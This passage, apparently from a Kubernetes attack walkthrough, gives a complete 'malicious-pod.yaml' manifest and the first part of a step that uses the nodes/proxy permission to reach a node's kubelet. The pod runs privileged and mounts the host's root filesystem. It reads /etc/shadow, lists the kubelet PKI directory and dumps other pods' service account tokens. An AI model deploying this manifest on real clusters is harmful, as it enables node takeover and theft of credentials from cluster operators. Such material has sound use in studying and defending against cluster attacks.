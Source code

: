     ```YAML
    
    # malicious-pod.yaml
    apiVersion: v1
    kind: Pod
    metadata:
      name: data-stealer-on-target-node
      namespace: target-namespace # Namespace where attacker-sa can create pods
    spec:
      nodeName: <target-node-name> # Force scheduling on the chosen target node
      serviceAccountName: default # Or any SA in target-namespace, may not need special perms itself
      tolerations: # To schedule on tainted nodes if necessary
      - effect: NoSchedule
        operator: Exists
      containers:
      - name: node-explorer
        image: alpine/git # Using an image with common tools like curl, ls, cat
        command: ["/bin/sh", "-c"]
        args:
        - >
          apk add --no-cache curl;
          echo "Attempting to list Kubelet PKI directory on host:";
          ls -lah /host/var/lib/kubelet/pki;
          echo "Attempting to read a common sensitive file (e.g., shadow) from host:";
          cat /host/etc/shadow;
          echo "Listing mounted service account tokens from other pods (if /var/run/secrets is accessible via /host/var/lib/kubelet/pods/...):";
          find /host/var/lib/kubelet/pods/ -name token -print -exec echo \; -exec cat {} \; 2>/dev/null;
          echo "Sleeping to keep pod alive for inspection...";
          sleep 3600
        securityContext:
          privileged: true # Critical: Grants root-equivalent access on the node
        volumeMounts:
        - name: host-filesystem
          mountPath: /host # Mounts the node's root filesystem into the pod
          # readOnly: false # Attacker would likely use false for modification
      volumes:
      - name: host-filesystem
        hostPath:
          path: / # Mounts the node's root filesystem
          ```
    
4. Step 3: Deploy Malicious Pod using nodes/proxy to Kubelet API (Conceptual):
    
    The attacker uses the nodes/proxy permission to make the API server forward the pod creation request directly to the Kubelet on target-node-name. This involves crafting a POST request to the API server endpoint:
    
    POST https://<api-server-address>/api/v1/nodes/<target-node-name>/proxy/pods
    